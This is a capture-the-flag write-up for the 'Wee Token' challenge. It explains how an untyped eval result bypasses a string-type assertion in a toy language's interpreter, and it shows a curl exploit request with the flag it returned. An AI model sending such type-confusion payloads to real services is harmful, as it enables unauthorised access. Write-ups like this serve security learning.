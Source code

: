 # Wee Token

> Solves: 54

> We _need_ to make sure strings in Wee are also strings in our runtime. Apparently attackers got around this and actively exploit us! We do not know how. Calling out to haxxor1, brocrowd, kobold.io,...: if anybody can show us how they did it, please, please please submit us the token the VM will produce. We added the function assert_string(str: string) for your convenience. You might get rich - or not. It depends a bit on how we feel like and if you reach our technical support or just 1st level. Anyway: this is a call to arms and a desperate request, that, we think, is usually called Bugs-Bunny-Program... or something? Happy hacking.
> http://35.207.132.47/

> Difficulty estimate: Easy

This is one of the [Wee](../Wee) challenges.

It's the last of 5 similar challenges revolving around breaking assertions
inside the interpreter source.

## Analysis

Unexpectedly cocky definition:

```js
externals.addFunction(
    // Wee is statically typed. Finding a way to confuse the VM is impossible.
    "assert_string",
    [{name: "str", type: compiler.StringType}], compiler.StringType,
    false,
    (str: string) => typeof str == "string" ? "WEE is statically typed. Sorry, confusing the VM is impossible."
        : flags.WEE_TOKEN
)
```

Looks like to break it we are going to have to find some way to fool the type
checker or a function which doesn't always return strings.

We can find a couple interesting functions in the same file:

```js
externals.addFunction(
    "eval",
    [{name: "expr", type: compiler.StringType}], compiler.StringType,
    true,
    (expr: string) => {
        return wee_eval(expr)
    }
)
```

```js
function wee_eval(expr: string): AsyncPromise<string> {
    let asyncResult: AsyncPromise<string> = {
        completed: false,
        value: null,
        stopVirtualMachine: false
    }
    eval_in_chrome(expr).then((res) => {
        //console.log("Result ", expr, res)
        asyncResult.value = res;
        asyncResult.completed = true
    }).catch((err) => {
        console.log("Unexpectged error in eval", expr, err)
        asyncResult.value = "" + err;
        asyncResult.completed = true
    })
    return asyncResult
}
```

```js
async function eval_in_chrome(script, ...args): Promise<string> {
    //const browser = await puppeteer.launch({args: ["--no-sandbox"]})
    try {
        //console.log("running", script, ...args)
        //const browser = await puppeteer.launch({args: ["--no-sandbox"]})
        //const page = await browser.newPage()
        //await page.goto(`file:///${__dirname}/pypyjs.html`)
        //const response = await page.goto(`file:///${__dirname}/pypyjs.html`)
        //console.log(response) Too slow :/
        const page = await pagePromise
        //console.log("Goiong on evaling", script, args)
        const result = await page.evaluate(script, ...args)
        //await page.close()
        //console.log("closed. returning.", result)
        return result
    } catch (e) {
        //console.log("An eval error occurred: ", e)
        return "" + e.message
    }
}
```

Looks like this evaluates JavaScript and if no error occurs returns what has
been evaluated. Perfect!

## Solution

Some good old `undefined` action:

```
liquid$> curl -X POST http://35.207.132.47/wee/run -d '{ "code": "alert(assert_string(eval(\'\')))" }'
{"code":"alert(assert_string(eval('')))","result":"35C3_WEE_IS_TINY_AND_SO_CONFU5ED\n"}
```
